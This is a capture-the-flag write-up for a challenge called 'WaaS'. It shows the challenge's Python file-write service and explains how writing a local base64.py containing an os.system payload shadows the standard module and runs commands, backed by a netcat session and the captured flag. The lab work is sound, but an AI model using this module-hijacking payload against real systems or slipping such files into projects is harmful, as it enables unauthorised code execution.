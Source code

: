 # WaaS

Category: MISC

Points: 491

Solves: 78

>Writing as a Service!

### Solution

```py
import subprocess
from base64 import b64decode as d
while True:
    print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
    try:
        inp = int(input("Choice: ").strip())
    except:
        print("Invalid input!")
        exit(0)
    if inp == 1:
        file = input("Enter file name: ").strip()
        assert file.count('.') <= 2 # Why do you need more?
        assert "/proc" not in file # Why do you need to write there?
        assert "/bin" not in file # Why do you need to write there? 
        assert "\n" not in file # Why do you need these?
        assert "chall" not in file # Don't be overwriting my files!
        try: 
            f = open(file,'w')
        except:
            print("Error! Maybe the file does not exist?")

        f.write(input("Data: ").strip())
        f.close()
        print("Data written sucessfully!")
		
    if inp == 2:
        flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
        print(flag.stdout.strip())
```

Looks like we can:
1. supply a filename and data to write into that file.
2. run `cat fake_flag.txt`

Unfortunately, our file name can't contain more than 2 `.`, `/proc`, `/bin`, `\n`, or `chall` (The challenge file is `chall.py`).

What's suspicious about this is that there is a random `base64` import in the file that seemingly does nothing. That's when I remembered that in python, when you `import *name*` it will first check your local directory for a `name.py` file, if it doesn't exist then it will look for pip and builtin libraries. This means that we can abuse this import by creating our own `base64.py` (or `subprocess.py`) file, and getting that to print our flag.

```bash
$ nc challs.n00bzunit3d.xyz 10447
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: 1
Enter file name: base64.py
Data: import os;os.system("cat flag.txt") # first used ls to find flag.txt
Data written sucessfully!
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: ^C
$ nc challs.n00bzunit3d.xyz 10447
n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_23871b2de61e}
```

### Flag

```n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_23871b2de61e}```